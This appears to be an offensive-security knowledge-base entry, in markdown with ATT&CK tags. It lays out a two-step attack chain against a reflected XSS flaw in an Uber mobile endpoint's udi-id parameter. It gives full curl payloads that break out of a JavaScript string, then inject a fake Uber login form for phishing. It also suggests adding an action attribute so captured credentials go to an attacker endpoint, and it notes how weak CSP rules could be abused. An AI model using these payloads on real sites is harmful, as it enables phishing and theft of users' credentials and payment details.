

---
tags:
  - xss
  - reflected-xss
  - phishing
  - csp-misconfig
  - credential-harvesting
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
commands:
  - '[[commands/curl-inject-xss-payload]]'
verified: false
platforms:
  - Web
submitted: true
complexity: low
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Exploit-Reflected-XSS-in-Uber-udi-id-Parameter]]'
  - '[[procedures/Inject-Phishing-Login-Form-via-XSS-Payload]]'
step_count: 2
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
updated_at: '2025-12-14T03:15:41.139Z'
description: >-
  A multi-stage attack exploiting a reflected XSS vulnerability in Uber's mobile
  JavaScript endpoint, combined with CSP misconfigurations, to inject arbitrary
  HTML and JavaScript for credential harvesting via phishing.
skill_level: intermediate
impact_level: high
id: 2fcf49f8-edec-4264-9627-19bc3e9506fe
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
---
# Reflected XSS in Uber's udi-id Parameter Enabling SSL-Protected Phishing Attacks

Multi-stage attack chain demonstrating a complete attack workflow exploiting a reflected XSS vulnerability in Uber's mobile endpoint, allowing attackers to inject arbitrary JavaScript and HTML over SSL for phishing attacks that harvest login credentials, passwords, and credit card information. The attack leverages unescaped user input in the udi-id query parameter and CSP misconfigurations, including a wildcard script-src for *.cloudfront.net and a missing base-uri directive, classified as critical severity.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~1 minutes |
| Skill Level | Intermediate |
| Complexity | Low |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[commands/curl-inject-xss-payload]] (or web browser for manual testing)

### Target Environment

- Web platform
- Access to Uber's mobile endpoint: https://m.uber.com/0-dfffb25d2cf6ceeb0a27.js
- No authentication required (public-facing)

### Initial Access Requirements

- Internet access
- No prior credentials or network position needed; direct HTTP GET request

## Detailed Attack Procedures

### Step 1: Initial Access
procedure: [[procedures/Exploit-Reflected-XSS-in-Uber-udi-id-Parameter]]

**Objective**: Inject a crafted payload into the udi-id parameter to break out of the JavaScript string and reflect unescaped HTML/JavaScript, demonstrating arbitrary code execution.

**Instructions**: Construct a URL with a payload that closes the JavaScript string using double quotes and injects a div with an arbitrary link. Use [[commands/curl-inject-xss-payload]] to send the request:

```bash
curl "https://m.uber.com/0-dfffb25d2cf6ceeb0a27.js?udi-id=%22%7D%7D</script><div class='_b _c _d _e _f _g _h _i _a3 _a4 _a5 _a6 _a7 _a8 _a9 _aa _ab _ac _ad _ae _af _ag _ah _ai _aj _ak _al _am _an _ao _ap _aq _ar _as _at _au _av _aw'><a href=\"http://www.lyft.com\">Some arbitrary link text</a></div>"
```

Alternatively, paste the full URL into a web browser to observe the reflection.

**Expected Output**: The response includes the injected HTML div with the link, confirming breakout and execution over SSL.

**Success Indicators**:
- Injected div and link appear in the page source or render visibly
- No CSP blocking observed due to misconfigurations

### Step 2: Execution
procedure: [[procedures/Inject-Phishing-Login-Form-via-XSS-Payload]]

**Objective**: Leverage the XSS to inject a fake login form mimicking Uber's interface, enabling phishing for user credentials.

**Instructions**: Modify the payload to include a phishing form. Use [[commands/curl-inject-xss-payload]] with the advanced payload:

```bash
curl "https://m.uber.com/0-dfffb25d2cf6ceeb0a27.js?udi-id=%22%7D%7D%3C%2Fscript%3E%3Cdiv class='_b _c _d _e _f _g _h _i _a3 _a4 _a5 _a6 _a7 _a8 _a9 _aa _ab _ac _ad _ae _af _ag _ah _ai _aj _ak _al _am _an _ao _ap _aq _ar _as _at _au _av _aw'%3E%3Ch2%3ELogin to your Uber account%3C%2Fh2%3E%3Cform%3E%3Cinput type='text' title='username' placeholder='username' /%3E%3Cinput type='password' title='username' placeholder='password' /%3E%3Cbutton type='submit' class='btn'%3ELogin%3C%2Fbutton%3E%3Ca class='forgot' href='#'%3EForgot Your Uber Username?%3C%2Fa%3E%3C%2Fform%3E%3C%2Fdiv%3E"
```

Observe the rendered form in a browser or inspect the response.

**Expected Output**: A fake login form appears on the page, allowing form submission to an attacker-controlled endpoint (extend payload with action attribute for exfiltration).

**Success Indicators**:
- Phishing form renders with input fields and submit button
- Form can capture and submit credentials without CSP interference

## Attack Chain Summary

### Key Achievements

1. Successful breakout from JavaScript string via unescaped udi-id input, enabling arbitrary HTML/JS injection
2. Exploitation of CSP wildcard (*.cloudfront.net) and missing base-uri to load malicious scripts or redirect resources
3. Demonstration of critical phishing impact, allowing credential and payment info theft over secure SSL

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
